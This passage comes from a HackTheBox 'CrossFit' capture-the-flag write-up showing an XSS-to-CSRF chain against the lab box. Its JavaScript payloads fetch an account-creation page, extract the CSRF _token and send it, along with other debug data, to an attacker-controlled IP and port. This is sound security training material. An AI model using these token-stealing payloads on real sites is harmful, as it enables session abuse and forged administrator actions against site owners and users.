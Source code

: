 Yes, the page is different. We save the content to html and open in the browser

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2007:58:43.png)

That's the page we want! Now we can see that it refers to /accounts/create, let's take a look in it also

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:00:02.png)

Save it to html, and read again

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:00:58.png)

Great! Seems that we can create an account on the website.

# CSRF Account Request

We see on the html it let us send username and pass to it. This is now moving from XSS to Cross-Site Request Forgery (CSRF / XSRF), in the case of this box, I want the admin make an action for me, create a new user.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:15:32.png)

The "problem" is the _token variable, I need to get it and reuse it. Here is the way I got it, parsing the response and sending it to me, to check if it's okay.

0x4rt3mis.js

```js
// This section is to get the body response in a variable, as response
var url = 'http://ftp.crossfit.htb/accounts/create';
var body = new XMLHttpRequest();
body.open('GET', url, false);
body.send();
var response = body.responseText;

// This section is to just parse it and get the token value
var parser = new DOMParser();
var response_text = parser.parseFromString(response, "text/html");
var token = response_text.getElementsByName("_token")[0].value;

// This section is to send the token value to us
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://10.10.14.20:9999/' + token, true);
xhr.send();
```

And here we got it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2009:16:02.png)

Now, we need to create an account in it. We send as POST request the params.

```js
// Function created to simplify the debbug, always send as param the value you want to debbug
function debug(debug){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://10.10.14.20:9999/' + debug, true);
        xhr.send();
}

// Function to parse the response and get the token from it
function getToken(response){
        var parser = new DOMParser();
        var response_text = parser.parseFromString(response, "text/html");
        return response_text.getElementsByName("_token")[0].value;
}
```